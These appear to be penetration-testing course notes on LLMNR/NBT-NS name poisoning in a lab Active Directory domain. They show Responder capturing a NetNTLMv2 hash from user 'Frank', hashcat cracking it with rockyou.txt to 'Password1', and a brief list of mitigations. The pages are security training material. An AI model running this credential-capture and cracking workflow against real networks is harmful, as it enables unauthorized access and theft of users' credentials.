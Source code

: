```yaml
---
layout: default
title: Initial Attack Vectors
parent: ActiveDirectory
grand_parent: TCM-Sec - PEH
permalink: /tcm-sec-PEH/active-directory/initial-attack-vectors
nav_order: 1
---
```


# Scanning & Enumeration <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## LLMNR Poisoning

The "NetBIOS and LLMNR Name Poisoning" attack is a man-in-the-middle (MITM) technique that involves manipulating network name resolution protocols to redirect and intercept network traffic, enabling an attacker to compromise communication and gain unauthorized access to systems.


![Alt text](<../../assets/TCM-Sec/AD/Netbios and LLMNR Name Poisoning.png>)


### Step 1. Start the MITM listener on the attacker machine

Here we use the Responder toolkit, a python based tool used for various network security assessments, specifically designed to exploit weaknesses in network protocols.

```console
┌──(kali㉿kali)-[~]
└─$ sudo python /usr/share/responder/Responder.py -I eth0 -dw -v
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.9]
    Responder IPv6             [fe80::c29:8818:2c:ff5b]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-DHHQNHS3HNM]
    Responder Domain Name      [03CO.LOCAL]
    Responder DCE-RPC Port     [49857]

[+] Listening for events...
                                

[!] Error starting SSL server on port 5986, check permissions or other servers running.
[!] Error starting SSL server on port 443, check permissions or other servers running.
```

Now that the listener is up and running lets initiate a flawed dns request, we'll make a network drive request to the attacker machine for simplicity here.

### Step 2. Make a flawed DNS request

Making a flawed DNS request on a victim machine

![Flawed DNS Request](<../../assets/TCM-Sec/AD/Flawed DNS request.png>)

The Responder HTTP gets the request and we get the client IP, the NTLM hash as well as the domain and the user name.

```console
[PROXY] Received connection from 10.0.2.16
[HTTP] GET request from: ::ffff:10.0.2.16  URL: / 
[HTTP] NTLMv2 Client   : 10.0.2.16
[HTTP] NTLMv2 Username : MARVEL\Frank
[HTTP] NTLMv2 Hash     : Frank::MARVEL:7dfb054dc6c5fe48:FEE1D6BE28364715DA41C4102F95B624:01010000000000006F5F
A65BD6B4D9013C9BD5DAB98FE6090000000002000800470043003000330001001E00570049004E002D005600430045004500590058004
80055004B0046004A000400140047004300300033002E004C004F00430041004C0003003400570049004E002D00560043004500450059
005800480055004B0046004A002E0047004300300033002E004C004F00430041004C000500140047004300300033002E004C004F00430
041004C000800300030000000000000000100000000100000FDDFF309592F822CCEEF84C50B7191FD04413B99EFE1F6BB19D07637A4B8
EBEF0A0010000000000000000000000000000000000009001A0048005400540050002F00310030002E0030002E0032002E00390000000
00000000000   
```

Let see if we can simply crack that hash using hashcat.

```console
──(kali㉿kali)-[~]
└─$ hashcat 'Frank::MARVEL:38140d92e111e3df:B04456F69DED2D7610B1532F633B9C0D:0101000000000000A8ED7064D6B4D901
43EF0174E3FFDD8F0000000002000800470043003000330001001E00570049004E002D00560043004500450059005800480055004B004
6004A000400140047004300300033002E004C004F00430041004C0003003400570049004E002D00560043004500450059005800480055
004B0046004A002E0047004300300033002E004C004F00430041004C000500140047004300300033002E004C004F00430041004C00080
0300030000000000000000100000000100000FDDFF309592F822CCEEF84C50B7191FD04413B99EFE1F6BB19D07637A4B8EBEF0A001000
0000000000000000000000000000000009001A0048005400540050002F00310030002E0030002E0032002E0039000000000000000000' 
/usr/share/wordlists/rockyou.txt --force     
hashcat (v6.2.6) starting in autodetect mode

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-penryn-Intel(R) Core(TM) i9-9880H CPU @ 2.30GHz, 2189/4443 MB (1024 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

5600 | NetNTLMv2 | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

FRANK::MARVEL:38140d92e111e3df:b04456f69ded2d7610b1532f633b9c0d:0101000000000000a8ed7064d6b4d90143ef0174e3ffdd8f0000000002000800470043003000330001
001e00570049004e002d00560043004500450059005800480055004b0046004a000400140047004300300033002e004c004f00430041004c0003003400570049004e002d0056004300
4500450059005800480055004b0046004a002e0047004300300033002e004c004f00430041004c000500140047004300300033002e004c004f00430041004c00080030003000000000
0000000100000000100000fddff309592f822cceef84c50b7191fd04413b99efe1f6bb19d07637a4b8ebef0a0010000000000000000000000000000000000009001a00480054005400
50002f00310030002e0030002e0032002e0039000000000000000000:Password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: FRANK::MARVEL:38140d92e111e3df:b04456f69ded2d7610b1...000000
Time.Started.....: Wed Jul 12 17:43:26 2023, (0 secs)
Time.Estimated...: Wed Jul 12 17:43:26 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    22988 H/s (3.06ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 2048/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: slimshady -> oooooo
Hardware.Mon.#1..: Util: 17%

Started: Wed Jul 12 17:42:49 2023
Stopped: Wed Jul 12 17:43:27 2023
```

> Success... the password is "Password1". Sloppy ^^

### Mitigations

1. Disable LLMNR 
2. Disable NBT-NS (fallback of LLMNR)
3. Alternatively enable Network Access Control
4. Review password policy and enforcement

---


